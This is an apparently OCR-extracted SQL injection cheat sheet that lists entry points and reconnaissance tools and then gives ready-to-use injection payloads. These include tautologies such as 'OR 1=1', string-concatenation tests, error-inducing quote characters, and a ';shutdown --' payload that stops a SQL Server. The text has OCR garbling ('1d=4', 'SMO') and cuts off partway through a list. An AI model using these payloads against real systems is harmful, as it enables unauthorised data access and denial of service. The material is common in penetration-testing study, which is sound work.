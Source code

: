 **SQL INJECTION CHEAT SHEET**

**Reconnaissance and entry points for SQL Injection**



**1. Common vulnerability entry points for SQLi**



Identify entry points using tools like \*\*burp, nmap, dirb, nikto, google dorks

&nbsp;	login forms

&nbsp;	search fields

&nbsp;	URL parameters (?id=1)

&nbsp;	HTTP headers (User-Agent, Referrer)

&nbsp;	cookies

&nbsp;	file upload forms



**2. Check for input validation**

Try basic payloads (', ", ;, --, '), ")to see application response to Look for error messages, unexpected behaviors or delays that may indicate SQLi vulnerability



**3. Test**

**To check if SQL injection is possible**

Try injecting into a parameter eg: product.asp?1d=4 (SMO) (NUMERIC)

&nbsp;	product.asp?id=5-1 (returns the result id=4)

&nbsp;	product.asp?id=4 OR 1=1

Trying to inject into product.asp?name=Book \*\*(STRING)\*\*

&nbsp;	product.asp?name=Bo'%2b'ok

&nbsp;	product.asp?name=Bo' || 'ok (only MO)

&nbsp;	product.asp?name=Book' OR 'x'='x



**Type of Database in use:**

Shutting down SQL Server 

&nbsp;	';shutdown --

inject error inducing payloads:

&nbsp;	' 

&nbsp;	" 

&nbsp;	') 

&nbsp;	") 

